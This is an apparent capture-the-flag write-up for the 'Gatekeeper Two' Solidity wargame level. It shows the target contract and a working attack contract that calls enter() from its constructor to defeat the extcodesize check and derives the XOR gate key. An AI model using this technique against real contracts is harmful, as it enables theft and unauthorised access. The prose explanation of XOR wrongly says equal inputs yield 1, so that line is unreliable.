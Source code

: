 # Challenge 14

<img src="./images/BigLevel14.svg" alt="14" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge
---
> This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Solution
---

1. Let's See Same as the GateKeeperOne but few minor changes.

Part 1
---
1. We have pass first three modifier let's see `gateOne` modifier

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

same as the last one.

Part 2
---
```solidity
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```
Few New things assembly is used for the when you want to write yul code in solidity. Here `extcodesize` is to verify whether a call was made from an externally owned account (EOA) or a contract account. and caller() means caller of the function. then if it is contrtact account it will revert otherwise pass the check.

Part 3
---
```solidity
 modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }
```

From the [Solidity documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#type-information)

  - `type(X)` returns information about `X` type.
  
  >     
     **Followings are the represention of interger Type T**

        - `type(T).min` The smallest value representable by type T.
        - `type(T).max` The largest value representable by type T.
  
Max Number of `type(uint64).max` is `18446744073709551615` you can get this value by `2 ** 64 - 1` (eg. `2 ** N - 1`) where n is the `number of bits`.

 - XOR Operation 
  | A |  B  | XOR |
|:-----|:--------:|------:|
| 0  | 0 | 0 |
| 0   |  1  |  1 |
| 1   | 0 |   1 |
| 1   | 1 |   0 |

If the both the A and B are same then `true (1)` otherwise `false (0)`. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwoAttack {
    // Remember a contract does not have source code available during construction. so the size of the code is 0.
    constructor()  {
        GatekeeperTwo gatekeeperTwoAddress = GatekeeperTwo(YOUR_INSTANCE_ADDRESS);
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        gatekeeperTwoAddress.enter(_gateKey);
    }
  
}

```

Here's the full code we can only pass this challenge when our contract size is zero and `msg.sender ^ _gateKey` must be equal to `type(uint64).max`. now submit the instance your challenge will be cleared.